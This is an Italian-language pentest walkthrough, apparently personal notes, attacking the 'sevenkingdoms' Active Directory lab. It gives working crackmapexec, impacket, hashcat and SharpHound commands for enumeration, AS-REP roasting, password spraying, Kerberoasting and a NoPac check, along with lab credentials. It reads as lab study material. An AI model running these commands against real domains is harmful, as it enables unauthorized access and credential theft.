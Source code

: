 ### **SUBNET ENUM**
Inizio enumerando l'intera subnet con cme alla ricerca du samba
```bash
crackmapexec smb 192.168.56.0/24
```
![[Pasted image 20230810122313.png]]
Ora trovo gli ip dei DC per configurare /etc/hosts e capire la topologia
```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10
```
cambia ogni volta il nome del dominio
![[Pasted image 20230810124141.png]]
quindi modifico /etc/hosts per risolvere gli indirizzi
![[Pasted image 20230810124229.png]]

### **USER ENUM (NO CREDS)**
Enumero gli user presenti su ogni macchine
```bash
crackmapexec smb 192.168.56.11 --users
```
Ha SAMRPC attivo e quindi potrò enumerare gli user
![[Pasted image 20230810163553.png]]
Ho ottenuto anche una password trovata nella descrizione negli user

Puoi anche ottenere la policy della password per provare del bruteforce
```bash
crackmapexec smb 192.168.56.11 --pass-pol
```
![[Pasted image 20230810164319.png]]
Potresti usare anche enu4linux ma non ho voglia

### **SHARE SMB (NO CREDS)**
Enumeriamo gli share di smb su cui abbiamo qualche permesso come anonimo
```bash
crackmapexec smb 192.168.56.10-23 -u 'guest' -p '' --shares
```
![[Pasted image 20230810165921.png]]
cioccato

### **ASPREP-roasting**
Hai trovato la lista degli username, ora spolvera gli appunti
```bash
impacket-GetNPUsers 'north.sevenkingdoms.local/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
![[Pasted image 20230810171242.png]]
cracca l'hash
![[Pasted image 20230810171924.png]]

### **Password Spraying**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb 192.168.56.11 -u user.txt -p user.txt --no-bruteforce
```
![[Pasted image 20230810172208.png]]
### **NTLM RELAY**
Controlliamo tra gli host se ce ne è uno con l'opzione "signing:False"
```bash
crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt
```
![[Pasted image 20230825154818.png]]
Da approfondire quando si potrà
### **USER ENUM(W\ CREDS)**
Per ottenere tutti gli User di un dominio avendo un account a disposizione
```bash
impacket-GetADUsers -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
```
![[Pasted image 20230825105044.png]]

### **KERBEROASTING (SPN)**
Proviamo a vedere se c'è qualche SPN settato e con l'hash in chiaro (Cosa che capita spesso)
```bash
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```
![[Pasted image 20230825112141.png]]
Gli hash di questi due utenti sono stati inseriti nel file kerberoasting.hashes (opzione -outpoutfile)

Puoi usare anche crackmapexec per farlo
```bash
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

Cracca gli hash
```bash
hashcat -m 13100 -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20230825114831.png]]
Solo un hash è stata craccata

### **AD ENUM (BLOODHOUND)**
Ora che abbiamo trovato delle credenziali per accedere possiamo fare un enumerazione dell'ad tramite bloodhound e trovare i vari path per gli account
```bash
xfreerdp /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert-ignore
```
Passa l'exe ed avvialo, enumerando tutti e 3 i domain
```bash
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip
```

### **SamAccountName (NoPac) CVE-2021-42287**

Vediamo il machine account quota (Quanti computer puoi aggiungere al domain) dell'account trovato con il kerberoasting
```bash
crackmapexec ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```
![[Pasted image 20230825161202.png]]
